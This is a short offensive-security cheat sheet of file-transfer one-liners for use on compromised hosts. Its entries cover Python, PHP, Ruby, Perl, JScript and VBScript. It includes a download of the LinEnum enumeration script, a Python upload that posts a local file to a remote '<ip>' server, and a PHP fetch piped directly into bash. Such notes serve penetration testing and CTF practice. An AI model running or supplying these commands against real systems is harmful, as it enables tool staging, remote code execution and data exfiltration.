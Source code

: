 ## Python 

### Python 2 Download 
```shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
### Python 3 Download

```shell
 python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## Python 3 Upload 
```shell
python3 -m uploadserver 
```

```shell
python3 -c 'import requests;requests.post("http://<ip>:8000/upload",files={"files":open("<file path>","rb")})'
```

## PHP
### File_get_contents()
```shell
php -r '$file = file_get_contents("<url>"); file_put_contents("<file name>",$file);'
```
### Fopen()
```shell
php -r 'const BUFFER = 1024; $fremote = 
fopen("<url>", "rb"); $flocal = fopen("<filename>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
### PHP + Bash
```shell
php -r '$lines = @file("<url>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby 
```shell
ruby -e 'require "net/http"; File.write("<filename>", Net::HTTP.get(URI.parse("<url>")))'
```

## Perl
```shell
perl -e 'use LWP::Simple; getstore("<url>", "<filename>");'
```

## Java Script 
Make a file called `wget.js`
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```cmd
 cscript.exe /nologo wget.js <url> <name>
```

## VBScript
Make a file called `wget.vbs`
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd
cscript.exe /nologo wget.vbs <url> <name>
```


